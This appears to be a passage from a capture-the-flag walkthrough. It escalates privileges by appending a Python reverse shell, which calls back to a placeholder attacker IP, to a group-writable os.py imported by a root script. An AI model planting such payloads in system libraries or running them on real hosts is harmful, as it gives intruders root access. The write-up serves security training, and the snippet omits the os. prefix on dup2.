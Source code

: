 ```bash
jack@jack:/tmp$ cat /opt/statuscheck/checker.py
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```
The script uses `os.system()` to run a shell command. View the group's jack-in.

```bash
jack@jack:/opt/statuscheck$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1001(family)
```
search for the family group 

![image](https://github.com/user-attachments/assets/4f76b1a0-d085-4685-ba13-a3960b9d15d5)

The family group has **write access** to `/usr/lib/python2.7/`, which includes core Python modules like `os.py`. By adding a **Python reverse shell** to the end of `os.py`, any **root-level** script that imports `os` may trigger your shell, giving you privileged access.

![image](https://github.com/user-attachments/assets/bcf5f37a-6c83-4778-89bd-c72143332b5c)

```bash
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<attacker_ip>",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
![image](https://github.com/user-attachments/assets/76f6ead9-22ad-429d-9763-a90e29037dc7)


